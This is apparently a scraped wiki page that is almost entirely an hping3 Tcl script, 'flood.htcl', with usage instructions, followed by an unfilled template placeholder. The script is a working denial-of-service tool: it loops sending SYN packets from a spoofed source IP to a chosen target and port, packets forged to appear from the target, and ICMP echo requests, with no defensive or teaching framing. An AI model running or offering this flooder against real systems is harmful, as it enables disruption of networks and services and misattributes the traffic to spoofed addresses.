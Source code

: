 # Introduction #
## hping ##
```
#Usage; hping3 exec ./flood.htcl <target> <dstport> <spoofed ip> <packet count> <speed>

if {$argc < 5} {
  puts "exaple: hping3 exec ./flood.htcl 192.168.254.2 135 123.456.78.90 100 5000"
  exit 1
  }
  
  foreach {hostname port spoofedip packets speed} $argv break
  set target [hping resolve $hostname]
  
  puts "flooding: $target"
  puts "on port: $port"
  puts "spoofed ip: $spoofedip"
  puts "packet count: $packets"
  puts "speed: $speed"

for {set i 1} {$i<$packets} {incr i} {
hping send "ip(saddr=$spoofedip,daddr=$target,ttl=255)+tcp(sport=$i,dport=$port,flags=s)"
hping send "ip(saddr=$target,daddr=66.66.66.66,ttl=255)+tcp(sport=66,dport=80,flags=aspu)"
hping send "ip(saddr=$spoofedip,daddr=$target,ttl=255)+tcp(sport=999,dport=$port,flags=s)"
hping send "ip(saddr=$spoofedip,daddr=$target,ttl=$i)+icmp(type=8,code=0)"
after $speed
}
```

# Details #

Add your content here.  Format your content with:
  * Text in **bold** or _italic_
  * Headings, paragraphs, and lists
  * Automatic links to other wiki pages